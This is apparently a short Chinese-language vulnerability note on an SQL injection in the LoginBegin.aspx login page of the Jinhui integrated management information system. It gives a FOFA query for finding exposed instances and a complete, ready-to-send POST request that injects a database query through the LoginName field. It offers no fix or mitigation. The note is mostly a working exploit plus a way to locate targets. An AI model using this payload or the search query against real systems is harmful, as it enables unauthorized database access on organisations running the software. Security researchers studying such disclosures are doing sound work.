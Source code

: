# 金慧综合管理信息系统LoginBegin存在sql注入漏洞

# 一、漏洞简介
金慧综合管理信息系统LoginBegin存在sql注入漏洞

# 二、影响版本
+ 金慧综合管理信息系统

# 三、资产测绘
+ fofa`app="金慧-综合管理信息系统"`
+ 特征

![1721921858962-77717a38-8222-4d54-a644-7eaa5cf8727a.png](./img/s-W9Z5FFLeIkJsE1/1721921858962-77717a38-8222-4d54-a644-7eaa5cf8727a-034732.png)

# 四、漏洞复现
```plain
POST /Portal/LoginBegin.aspx HTTP/1.1
Upgrade-Insecure-Requests: 1
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:31.0) Gecko/20100101 Chrome/23.0.1271.64 Safari/537.11
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Host: 

Todo=Validate&LoginName=beczou'or (select db_name())>0--&Password=admin&CDomain=Local&FromUrl=admin
```

![1721921873278-42d20cf4-a157-42ed-9fed-ad044cefe8a1.png](./img/s-W9Z5FFLeIkJsE1/1721921873278-42d20cf4-a157-42ed-9fed-ad044cefe8a1-037486.png)



> 更新: 2024-08-12 17:15:59  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ccmkokynsqfrhghm>